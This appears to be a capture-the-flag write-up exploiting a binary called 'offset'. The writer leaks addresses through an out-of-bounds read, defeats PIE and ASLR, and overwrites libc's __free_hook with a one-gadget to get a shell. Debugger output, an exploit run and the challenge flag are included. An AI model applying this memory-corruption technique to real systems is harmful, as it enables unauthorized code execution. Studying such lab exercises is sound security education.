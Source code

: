 # Solution

Binary allows users to specify an offset from a starting address in order to write content in an unordered fashion:
```sh
$ ./offset 
give us your name: h
hello h
!
input number of bytes to allocate (max 32): 20
your location is at 0x7ffe06878e60
choose offset: 10 
offsetting for 10 ...
your location is at 0x7ffe06878e6a
choose op: (r)ead current, (w)rite current or (p)rint result? w
AAAAAAAAAAAA
your location is at 0x7ffe06878e60
choose offset: offsetting for 0 ...
your location is at 0x7ffe06878e60
choose op: (r)ead current, (w)rite current or (p)rint result? unknown op
your location is at 0x7ffe06878e60
choose offset: offsetting for 0 ...
your location is at 0x7ffe06878e60
choose op: (r)ead current, (w)rite current or (p)rint result? unknown op
your location is at 0x7ffe06878e60
choose offset: 30
out of bounds offset! defaulting to 0 ...
your location is at 0x7ffe06878e60
choose op: (r)ead current, (w)rite current or (p)rint result? r
2000000000000000d27241414141414141414100
your location is at 0x7ffe06878e60
choose offset: 20
offsetting for 20 ...
your location is at 0x7ffe06878e74
choose op: (r)ead current, (w)rite current or (p)rint result? r
1400000000e677598aefc117b08e8706fe7f0000
your location is at 0x7ffe06878e60
choose offset: 
```

As observed, overwriting `rip` or specifying a large offset to position at `rip` value is not possible.

The only thing possible is specifying a negative value which gives one the ability to jump to lower addresses:
```sh
$ ./offset 
give us your name: h
hello h
!
input number of bytes to allocate (max 32): 32
your location is at 0x7ffeacf7d9f0
choose offset: -20
offsetting for -20 ...
your location is at 0x7ffeacf7d9dc
choose op: (r)ead current, (w)rite current or (p)rint result? r
5f55000040daf7acfe7f00006115389c5f5500002000000000000000d212389c
your location is at 0x7ffeacf7d9f0
choose offset: 
```

Since stack is at the bottom, all other regions are available for reading and editing:
```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555555000 r--p     1000 0      /tmp/offset
    0x555555555000     0x555555556000 r-xp     1000 1000   /tmp/offset
    0x555555556000     0x555555557000 r--p     1000 2000   /tmp/offset
    0x555555557000     0x555555558000 r--p     1000 2000   /tmp/offset
    0x555555558000     0x555555559000 rw-p     1000 3000   /tmp/offset
    0x555555559000     0x55555557a000 rw-p    21000 0      [heap]
    0x7ffff7dc3000     0x7ffff7de8000 r--p    25000 0      /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7ffff7de8000     0x7ffff7f60000 r-xp   178000 25000  /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7ffff7f60000     0x7ffff7faa000 r--p    4a000 19d000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7ffff7faa000     0x7ffff7fab000 ---p     1000 1e7000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7ffff7fab000     0x7ffff7fae000 r--p     3000 1e7000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7ffff7fae000     0x7ffff7fb1000 rw-p     3000 1ea000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7ffff7fb1000     0x7ffff7fb7000 rw-p     6000 0      [anon_7ffff7fb1]
    0x7ffff7fc9000     0x7ffff7fcd000 r--p     4000 0      [vvar]
    0x7ffff7fcd000     0x7ffff7fcf000 r-xp     2000 0      [vdso]
    0x7ffff7fcf000     0x7ffff7fd0000 r--p     1000 0      /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7fd0000     0x7ffff7ff3000 r-xp    23000 1000   /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ff3000     0x7ffff7ffb000 r--p     8000 24000  /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 2c000  /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 2d000  /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      [anon_7ffff7ffe]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000 0      [vsyscall]
```

Binary also has all security controls enabled:
```sh
$ checksec /tmp/offset
[*] '/tmp/offset'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Leaking binary information

Since all security controls are enabled we cannot:
- control `rip` because binary blocks overwrite
  - there is also stack canary, but it can be leaked
- overwrite `.got` because full RELRO is activated
- implant own shellcode and execute because NX is enabled and no RWX segments present
- jump and change predefined addresses because of PIE

This makes things a lot harder, but observe that `(r)ead`ing operation will always read 32 bytes of data. This means that we can leak stored `rip` value. Alternatively, if we read the stack immediately on first operation, we can leak the address of `prompt_alloc_size+73` instruction:
```
pwndbg> x/2gx $rsp
0x7fffffffdec0:	0x0000000000000020	0x00005555555552d2
pwndbg> x/i $rip
=> 0x5555555555b9 <loop+475>:	call   0x555555555140 <printf@plt>
pwndbg> x/2gx $rsp
0x7fffffffdec0:	0x0000000000000020	0x00005555555552d2
pwndbg> x/i 0x00005555555552d2
   0x5555555552d2 <prompt_alloc_size+73>:	mov    eax,DWORD PTR [rbp-0xc]
```

This enables us to calculate the base address of the binary and map out all of the locations (`.got`, `.plt`, `libc`, ...) since offsets are always fixed. In particular, if `prompt_alloc_size+73` is at `0x5555555552d2` and `prompt_alloc_size` offset is `0x1289`, binary base address is `0x555555554000`.

## Rerouting execution

Since full RELRO is enabled, we cannot overwrite `.got` and wait for a specific function call, but binary performs two calls before calling the `loop` function:
```c
undefined8 main(void)

{
  alarm(0x3c);
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  u = (char *)malloc(0x20);
  printf("give us your name: ");
  fgets(u,0x20,stdin);
  printf("hello %s!\n",u);
  loop();
  free(u);
  return 0;
}
```

Before initiating the loop, username is `malloc`'d and a prompt pops up asking for a name. When exiting the `loop` function, allocated username is `free`d. This is an opportunity to use standard libc hooks to reroute execution, overwriting the libc `__free_hook` in particular.

Steps to reroute execution would be:
- leak `prompt_alloc_size+73` address
- calculate bin base address
- leak `.got` function value (any of our choice)
- calculate libc base address
- overwrite `__free_hook` value with a one gadget
- exit the loop to trigger our `__free_hook` and pop a shell

Full exploit is in `solve.py`:
```sh
$ python3 solve.py 
[+] Opening connection to localhost on port 9000: Done
leaked prompt_alloc_size instr address 0x5562c64c12d2
got base address 0x5562c64c0000
pointing to puts@got.plt at 0x5562c64c3f90
puts@got.plt value is 0x7f3ff46125a0
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
free hook is at 0x7f3ff4779b28
overwritten free_hook at 0x7f3ff4779b28 with 0x7f3ff4671c81
[*] Switching to interactive mode
 $ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls
flag.txt
offset
start.sh
$ cat flag.txt
ibctf{n0t-wr4pping-t0rt1ll4z_h3r3_w3-wr4pp1ng-m3m0r13z}
$ 
```
